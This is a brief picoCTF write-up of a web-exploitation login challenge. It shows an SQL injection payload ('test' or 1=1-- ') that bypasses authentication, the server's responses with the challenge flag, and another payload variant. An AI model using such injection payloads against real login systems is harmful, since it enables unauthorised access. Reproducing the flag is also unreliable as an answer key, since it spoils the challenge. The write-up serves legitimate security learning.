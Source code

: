 # Overview 
Category: [Web Exploitation]()

AUTHOR: MUBARAK MIKAIL

# Description
Can you login to this website?

# Solution
- I input : username=test&password=test

```html
<pre>
    username: test
    password: test
    SQL query: SELECT * FROM users WHERE name=&#039;test&#039; AND password=&#039;test&#039;
</pre>
<h1>
    Login failed.
 </h1>
```
- I try : username=test'+or+1%3d1--+

```html
<pre>
    username: test&#039; or 1=1-- 
    password: test
    SQL query: SELECT * FROM users WHERE name=&#039;test&#039; or 1=1-- &#039; AND password=&#039;test&#039;
</pre>
<h1>
    Logged in! But can you see the flag, it is in plainsight
</h1>
<p hidden>
    Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_ec8a64c7}
</p>
```
- Can you try : username=admin'+or+'1'%3d'2
etc ...
